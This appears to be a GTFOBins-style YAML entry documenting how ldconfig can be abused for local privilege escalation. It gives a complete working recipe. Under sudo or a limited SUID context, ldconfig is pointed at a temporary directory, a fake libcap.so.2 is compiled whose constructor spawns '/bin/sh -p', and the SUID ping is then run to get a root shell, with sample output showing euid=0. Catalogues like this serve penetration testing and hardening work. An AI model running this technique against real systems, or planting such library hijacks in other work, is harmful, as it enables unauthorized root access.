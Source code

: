 ```yaml
---
description: |
  Follows a minimal example of how to use the described technique (details may change across different distributions).

  Run the code associated with the technique.

  Identify a target SUID executable, for example the `libcap` library of `ping`:

  ```
  $ ldd /bin/ping | grep libcap
        libcap.so.2 => /tmp/tmp.9qfoUyKaGu/libcap.so.2 (0x00007fc7e9797000)
  ```

  Create a fake library that spawns a shell at bootstrap:

  ```
  echo '#include <unistd.h>

  __attribute__((constructor))
  static void init() {
      execl("/bin/sh", "/bin/sh", "-p", NULL);
  }
  ' >"$TF/lib.c"
  ```

  Compile it with:

  ```
  gcc -fPIC -shared "$TF/lib.c" -o "$TF/libcap.so.2"
  ```

  Run `ldconfig` again as described below then just run `ping` to obtain a root shell:

  ```
  $ ping
  # id
  uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
  ```
functions:
  sudo:
    - description: This allows to override one or more shared libraries. Beware though that it is easy to *break* target and other binaries.
      code: |
        TF=$(mktemp -d)
        echo "$TF" > "$TF/conf"
        # move malicious libraries in $TF
        sudo ldconfig -f "$TF/conf"
  limited-suid:
    - description: This allows to override one or more shared libraries. Beware though that it is easy to *break* target and other binaries.
      code: |
        TF=$(mktemp -d)
        echo "$TF" > "$TF/conf"
        # move malicious libraries in $TF
        ./ldconfig -f "$TF/conf"
---
```

